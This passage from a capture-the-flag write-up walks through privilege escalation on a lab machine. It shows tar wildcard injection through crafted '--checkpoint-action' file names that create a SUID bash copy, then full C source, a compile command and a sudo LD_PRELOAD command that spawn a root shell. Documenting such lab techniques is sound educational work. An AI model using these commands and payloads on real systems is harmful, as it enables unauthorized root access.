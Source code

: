 We can run a backup binary as root. Let's check it out.

![](17.png)

The binary uses tar with a wildcard, and this is very bad.

We can exploit that to execute a script from our creation.

I'm gonna write the following command to a file and put it in /var/www/html directory.

```bash
cp /bin/bash /tmp/bash && chmod +s /tmp/bash
```

Then create two other file in /var/www/html with the following commands:

```bash
echo "" > "--checkpoint-action=exec=sh shell.sh"
echo "" > --checkpoint=1
```

Since we don't have permission to write in that directory as webdeveloper, let's use our first shell as www-data.



That didn't work.

Looking back at sudo -l output, we see that the binary has `env_keep+=LD_PRELOAD`.

Let's copy the following c code to a file on the target machine.

```c
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>

void _init() {
unsetenv("LD_PRELOAD");
setgid(0);
setuid(0);
system("/bin/bash");
}
```

Now compile it with the following command.


```bash
gcc exploit.c -o exploit -fPIC -shared -nostartfiles -w
```

Then run the following command to get a root shell.

```bash
sudo LD_PRELOAD=/home/webdeveloper/exploit /usr/bin/sky_backup_utility
```

![](18.png)



---

Thank you for taking the time to read my write-up, I hope you have learned something from this. If you have any questions or comments, please feel free to reach out to me. See you in the next hack :).

---

# References

63191e4ece37523c9fe6bb62a5e64d45

3a62d897c40a815ecbe267df2f533ac6